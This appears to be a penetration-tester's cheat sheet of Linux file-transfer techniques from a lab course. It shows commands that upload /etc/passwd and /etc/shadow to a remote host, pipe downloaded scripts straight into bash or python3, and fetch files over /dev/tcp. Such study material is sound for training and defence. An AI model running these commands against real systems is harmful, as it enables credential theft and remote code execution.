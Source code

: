 # File Transfer Linux

## Web

### downloads
- wget
```sh
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
- cURL
```sh
# output filename option is lowercase `-o'.
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
### uploads
#### Curl Upload multiple files 
```sh
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# We used the option --insecure because we used a self-signed certificate that we trust.
```

#### Create Server Without SSL
this methods can also get ssl certificates i will just not explain here:
```sh
# python3
python3 -m http.server 80001

#python2.7
python -m SimpleHTTPServer 8000

#php
php -S 0.0.0.0:8000

#ruby
ruby -run -ehttpd . -p 8000
```

#### Create Server with SSL
- Pwnbox - Start Web Server
```sh
sudo python3 -m pip install --user uploadserver
```
- Pwnbox - Create a Self-Signed Certificate
```sh
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.
- start the webserver
```sh
mkdir https && cd https
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```


## Fileless Attacks Using Linux

### Fileless Download
- curl
```sh
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
-wget
```sh
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available.
As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.
- Connect to the Target Webserver
```sh 
exec 3<>/dev/tcp/10.10.10.32/80
```
- HTTP GET Request
```sh 
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
- Print the Response
```sh
cat <&3 # <&3 is the file descriptor for the connection see one command higher
```

## SSH Downloads
- Enabling the SSH Server
```sh
sudo systemctl enable ssh
```
- Starting the SSH Server
```sh
sudo systemctl start ssh
```
- Checking for SSH Listening Port
```sh
netstat -lnpt
```
- Linux - Downloading Files Using SCP
```sh
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

## SCP Upload
```sh
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```